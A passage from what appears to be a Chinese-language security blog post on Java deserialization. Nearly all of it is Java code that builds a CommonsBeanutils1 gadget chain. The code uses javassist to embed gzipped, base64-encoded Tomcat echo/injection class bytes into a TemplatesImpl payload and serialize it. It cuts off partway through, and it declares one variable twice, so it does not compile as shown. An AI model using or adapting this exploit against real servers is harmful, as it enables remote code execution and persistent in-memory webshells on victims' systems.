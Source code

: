 ```java
}
```
然后我们编写序列化代码，这里我直接使用CB1链，分别将TomcatEcho.class，TomcatInject.class序列化成TomcatEcho.ser，TomcatInject.ser
```java
package com.myproject.temp;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.file.Files;

import java.io.*;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.PriorityQueue;
import java.util.zip.GZIPOutputStream;

public class Test_3 {
    public Test_3() {

    }

    public static void main(String[] args) throws Exception {
        byte[] ctBytes = Files.readBytes(new File("/Users/aaronluo/Documents/Code/JavaCode/fastjson80/target/classes/com/fastjson/test/TomcatEcho.class"));
    //  
        byte[] ctBytes = Files.readBytes(new File("/Users/aaronluo/Documents/Code/JavaCode/fastjson80/target/classes/com/fastjson/test/TomcatInject.class"));
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        CtClass ctClass;
        ctClass = pool.get("com.myproject.temp.ClassLoaderTemplate");
        ctClass.setName(ctClass.getName() + System.nanoTime());
        ByteArrayOutputStream outBuf = new ByteArrayOutputStream();
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(outBuf);
        gzipOutputStream.write(ctBytes);
        gzipOutputStream.close();
        String content = "b64=\"" + Base64.encodeBase64String(outBuf.toByteArray()) + "\";";
        ctClass.makeClassInitializer().insertBefore(content);
        ctClass.setSuperclass(superC);
        ctClass.writeFile();
        byte[] classBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates, "123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates, targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates, null);
        BeanComparator comparator = new BeanComparator("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add(new BigInteger("1"));
```